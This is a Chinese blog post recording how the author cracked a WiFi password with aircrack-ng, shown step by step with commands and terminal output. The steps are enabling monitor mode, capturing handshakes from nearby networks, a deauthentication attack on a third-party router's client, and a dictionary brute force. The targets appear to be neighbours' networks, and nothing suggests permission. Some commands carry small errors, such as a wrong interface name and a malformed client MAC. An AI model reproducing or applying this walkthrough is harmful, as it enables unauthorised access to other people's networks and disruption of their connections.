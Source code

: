 ```yaml
---
layout: post
title:  "一次wifi破解记录"
categories: Hacker
tags:  wifi hacker
---
```


* content
{:toc}


## 0x00 前言

wifi破解工具有很多，比如wifite、aircrack、cowpatty、reaver等等，其中wifite是最傻瓜式的，但是个人尝试很久，没有破解成功一次，我就很好奇，是我的方式不对？cowpatty只管破解，因此还是要和air结合起来用。reaver破解的非常非常慢，一次要很久，但是一般都能搞定。这次先用aircrack。

## 0x01 准备

装逼要用全套的，特意买的3070的网卡，专用破解。

据说效果很好，但是我完全体会不到......

```
~$ lsusb
Bus 001 Device 014: ID 148f:3070 Ralink Technology, Corp. RT2870/RT3070 Wireless Adapter

~$ iwconfig
wlan1     IEEE 802.11bgn  ESSID:off/any
          Mode:Managed  Access Point: Not-Associated   Tx-Power=30 dBm
          Retry  long limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:on
```

## 0x02 获取握手包

### 1.激活监听模式

```
~$ airmon-ng start wlan1

PHY     Interface       Driver          Chipset
phy1    wlan1           rt2800usb       Ralink Technology, Corp. RT2870/RT3070

                (mac80211 monitor mode vif enabled for [phy1]wlan1 on [phy1]wlan1mon)
                (mac80211 station mode vif disabled for [phy1]wlan1)
                (mac80211 station mode vif disabled for [phy1]wlan1)
```

激活之后就发现名称变了，多了个mon，后面的mode是monitor。

```
~$ /home/dante# iwconfig

wlan1mon  IEEE 802.11bgn  Mode:Monitor  Tx-Power=30 dBm
          Retry  long limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
```

### 2. 获取wifi信息
```
airodump-ng wlan0mon
下面就会显示出所有的wifi的链接信息。之前遗漏了这一块，暂时不补了。

```

### 3.抓包

破解的过程就是先抓包，抓到它的四次握手包，然后破解出密码。

```
airodump-ng --ivs -w filename -c wlan1mon
```

```
  BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                    
 5C:63:BF:61:8B:C8  -58      639      761    0   6  54e. WPA2 CCMP   PSK  quan
 30:F3:35:87:24:BC  -66      330        0    0   4  54e  WPA2 CCMP   PSK  CU_57w8
 C0:61:18:22:8B:2B  -65      620      547    0   6  54e. WPA2 CCMP   PSK  tunshi6
 64:09:80:4B:FC:2C  -71      223     2184    1   1  54e  WPA2 CCMP   PSK  Xiaomi_tunshi7
 ......
                                                                                                                                                     
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe
                                                                                                                                                     
 5C:63:BF:61:8B:C8  A4:C4:94:DB:10:1A  -44    0 - 2e     0      153  quan
 C0:61:18:22:8B:2B  74:2F:68:4A:7B:7B  -84    0e- 1      0      558  tunshi6
 64:09:80:4B:FC:2C  AC:B5:7D:D1:00:62   -1    1e- 0      0      154
 64:09:80:4B:FC:2C  14:F6:5A:B6:E2:94  -80    1e- 1      0     1369  su8-1
 ......
```

### 4.Deauth攻击

现在对脸上路由器64:09:80:4B:FC:2C上的设备64:09:80:4B:FC:2C进行攻击。

```
~$ aireplay-ng -0 10 -a 64:09:80:4B:FC:2C -c 64:09:80:4B:FC:2C4 wlan1mon --ignore-negative-one
13:18:29  Waiting for beacon frame (BSSID: 64:09:80:4B:FC:2C) on channel -1
13:18:30  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:30  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:30  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:31  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:31  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
13:18:32  Sending 64 directed DeAuth. STMAC: [14:F6:5A:B6:E2:94] [ 0| 0 ACKs]
```
可以看到，当发送攻击的时候，你攻击的那台设备就会丢包。

```
 BSSID              STATION            PWR   Rate    Lost    Frames  Probe
 C0:61:18:22:8B:2B  74:2F:68:4A:7B:7B  -86    0e- 1      0      834  tunshi6
 64:09:80:4B:FC:2C  14:F6:5A:B6:E2:94    0    0e- 1    373     3782  su8-1
```

发送了好几次攻击，过了二十多分钟才获取到握手包。可以看到下面获取到了handshake

```
  CH  4 ][ Elapsed: 25 mins ][ 2016-03-06 13:34 ][ WPA handshake: 64:09:80:4B:FC:2C
                                                                                                                                                    
 BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
                                                                                                                                                    
 5C:63:BF:61:8B:C8  -58     1973      909    0   6  54e. WPA2 CCMP   PSK  quan
 30:F3:35:87:24:BC  -64     1062        0    0   4  54e  WPA2 CCMP   PSK  CU_57w8
 64:09:80:4B:FC:2C  -73      707     4411    0   1  54e  WPA2 CCMP   PSK  Xiaomi_tunshi7
 ......
```
## 0x03 破解

破解就是用了爆破，完全是看字典！

```
aircrack-ng -w dic.txt test-0*.cap

```
然后选定需要破解的wifi即可开始进行破解。话说，运气不好的时候，打死也破解不出来.......

```
                           Aircrack-ng 1.2 rc3


                   [00:00:31] 12552 keys tested (381.79 k/s)


                       Current passphrase: 123bandit


      Master Key     : E3 A0 4F 08 DC D9 95 A5 87 48 02 B5 E1 93 C6 84
                       75 DD 23 E8 45 65 DD CA B8 89 53 96 75 E8 56 10

      Transient Key  : 11 24 33 3A FE 8F 51 E6 7D 7C C5 C2 BB 9B 0B 6F
                       4F 99 8C 5D 67 2B E2 6A 9C 34 2A 4A FB 1D 19 4F
                       84 C4 4C 8D 58 3B 22 70 C9 36 FD 98 D9 D6 E6 94
                       72 C9 AF 54 E1 B2 83 F1 EF 2A FA 0C 7D 59 3A 96

      EAPOL HMAC     : 80 84 40 03 84 DC E4 20 41 FF 74 C8 FB 1C DE EB
```

## 0xFF 总结

aircrack的确是神器，用好了破解个wifi不是太大问题的，不过也就弱密码比较好搞定一些，有些意识比较强的孩子密码设置的比较神奇，基本也没戏。

不过破解的方式也总是在提高，比如彩虹表、GPU这些各种高效的方式都可以使用，目前爆破能拿来玩一玩，剩余的慢慢研究。

**补充**

其实到头来都是在用工具，对里面的原理还没有太深的理解，下一步多了解一些使用方式后，着重自己动手写一些程序来操作。


******
2016-03-06 19:18:00 hnds
